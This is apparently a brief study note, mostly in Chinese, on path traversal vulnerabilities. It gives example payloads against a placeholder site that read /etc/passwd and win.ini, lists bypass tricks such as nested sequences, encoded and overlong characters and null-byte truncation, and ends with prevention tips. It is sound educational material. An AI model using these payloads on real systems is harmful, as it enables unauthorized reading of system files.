 ## Path traversal (../)
- 能夠讀取運行應用程式的伺服器上的任意檔案
- 能夠寫入伺服器上的任意文件
- 修改應用程式資料或行為
**Example :**
    - <"img src="/loadImage?filename=218.png""> --> call /var/www/images/218.png
    - https://insecure-website.com/loadImage?filename=../../../etc/passwd
    - ../和都是..\有效的目錄遍歷序列
    -  Windows 伺服器 : https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

## Bypass : 
- 絕對路徑 : filename=/etc/passwd
- Ｎested traversal : "....//" or "....\/"
    - (....//....//....//etc/passwd)
- URL 編碼 :%2e%2e%2f, %252e%252e%252f , ..%c0%af or ..%ef%bc%8f
    - Burp Intruder: Fuzzing - path traversal
- 基底資料夾 : filename=/var/www/images/../../../etc/passwd
- 副檔名結尾 : filename=../../../etc/passwd%00.png

## prevent a path traversal attack
- 白名單 : 處理使用者輸入之前，請先驗證其有效性
- 僅包含字母數字字元
- 使用平台檔案系統 API 來規範化該路徑

